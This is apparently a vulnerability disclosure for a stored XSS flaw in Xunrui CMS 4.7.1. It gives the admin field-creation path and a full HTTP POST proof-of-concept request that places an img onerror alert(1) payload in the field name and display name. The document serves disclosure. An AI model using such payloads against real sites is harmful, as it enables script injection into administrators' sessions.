



# xunruicms-Basic Settings-XSS

## Supplier

https://www.xunruicms.com/down/

## Description

Xunrui CMS system is to help customers promote their products, services and brands on the Internet, create value for customers and realize their own value! XSS vulnerability exists

## POC

在设置-项目信息-基本设置-添加-显示名称-字段名称

In Settings - Project Information - Basic Settings - Add - Display Name - Field Name



发现成功触发





```
POST /admind45f74adbd95.php?c=field&m=add&rname=site&rid=1&page=0 HTTP/1.1
Host: 192.168.24.65:1001
Content-Length: 909
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.24.65:1001
Referer: http://192.168.24.65:1001/admind45f74adbd95.php?c=field&m=add&rname=site&rid=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: b4f32742f89d7240215e8f04897f609e_member_uid=1; b4f32742f89d7240215e8f04897f609e_member_cookie=ed9217d3ada4ebab1be5f3ac10e77505; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_uid=1; PHPCMF548bfec3975944bdebbbf4113b3e44d3member_cookie=af9cad3bdafee2d64cb9869846ad27b3; laravel_session=8ntK1kqs5gVf4lPS7trycJXP48OfBiYIUFhwZF45; ci_session=2v5elnt9kbc76orbf0evf7ptd4jb9jqi; e88f0ea50a570a3d08602276c4270c43_member_uid=1; e88f0ea50a570a3d08602276c4270c43_member_cookie=22a3d9e275de92de12f8bac6d270c35a
Connection: close

is_form=1&is_admin=1&is_tips=&_token=CMF548bfec&page=0&data%5Bname%5D=%3Cimg+src%3D1+onerror%3Dalert(1)%3E&data%5Bfieldname%5D=img_src%3D1_xss%3Dclean%3Cimg+src%3D1+onerror%3Dalert(1)%3E&data%5Bismain%5D=1&data%5Bfieldtype%5D=Text&data%5Bsetting%5D%5Boption%5D%5Bfieldtype%5D=VARCHAR&data%5Bsetting%5D%5Boption%5D%5Bfieldlength%5D=1231&data%5Bsetting%5D%5Boption%5D%5Bvalue%5D=%7Bemail%7D&_member_field=email&data%5Bsetting%5D%5Bvalidate%5D%5Bxss%5D=1&data%5Bsetting%5D%5Bvalidate%5D%5Brequired%5D=0&data%5Bsetting%5D%5Bvalidate%5D%5Bpattern%5D=&data%5Bsetting%5D%5Bvalidate%5D%5Berrortips%5D=&data%5Bsetting%5D%5Bvalidate%5D%5Bcheck%5D=&data%5Bsetting%5D%5Bvalidate%5D%5Bfilter%5D=&data%5Bsetting%5D%5Boption%5D%5Bwidth%5D=&data%5Bsetting%5D%5Bvalidate%5D%5Btips%5D=&data%5Bsetting%5D%5Boption%5D%5Bcss%5D=&data%5Bsetting%5D%5Bvalidate%5D%5Bformattr%5D=&data%5Bsetting%5D%5Bis_right%5D=0&data%5Bismember%5D=1
```

## version

Vulnerabilities affect versions

| 迅睿CMS-Laravel版安装包     | 4.7.1 | 2025-11-11 |
| :-------------------------- | ----- | ---------- |
| 迅睿CMS-ThinkPHP版安装包    | 4.7.1 | 2025-11-11 |
| 迅睿CMS-CodeIgniter版安装包 | 4.7.1 | 2025-11-11 |